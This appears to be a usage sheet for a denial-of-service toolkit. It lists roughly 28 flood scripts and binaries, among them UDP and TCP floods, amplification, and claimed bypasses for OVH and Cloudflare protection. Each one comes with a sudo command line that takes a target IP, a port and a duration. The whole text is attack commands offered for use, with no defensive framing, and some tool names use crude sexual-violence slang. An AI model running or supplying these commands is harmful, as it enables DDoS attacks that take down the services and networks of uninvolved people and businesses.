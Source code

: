 How to use :

OVH-AMP : ./OVH-AMP %ip% %port%

X-STD : sudo ./X-STD %ip% %port%

SSA : sudo ./ssa %ip%

ETC : sudo ./etc %ip% %port%

OVH : sudo ./ovh %ip% %port% 9999 0 9999

OVH-V2 : sudo ./ovhbypass2 %ip% %port% 999999 udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 999999 ack

HEX : sudo ./HEX OVH %ip% %port% 999999

NUKE-BYPASS : sudo ./HiperOVH %ip% %port%

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 999999

ETHERA : sudo ./ETHERA %ip% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 999999

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 999999

R4P3 : sudo ./gre %ip% 10 -1 999999

NFO : sudo ./NFO %ip% %port% 10 -1 999999

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 999999

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 999999

NULL : sudo perl UDP_NULL.pl %ip% 999999

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 9999

UDP-MIX : sudo perl UDP_MIX.pl %ip% 9999

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 9999

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% 9999

GAME : sudo ./GAME-CRASH %ip% %port%

AMP : sudo perl amp.pl %ip% %port% 5500 9999

Twiks : sudo ./Twiks %ip% %port%

35 : sudo perl 35.pl %ip% %port% 1000 300

korkut : sudo ./korkut2 %ip% %port% 10 -1 9999
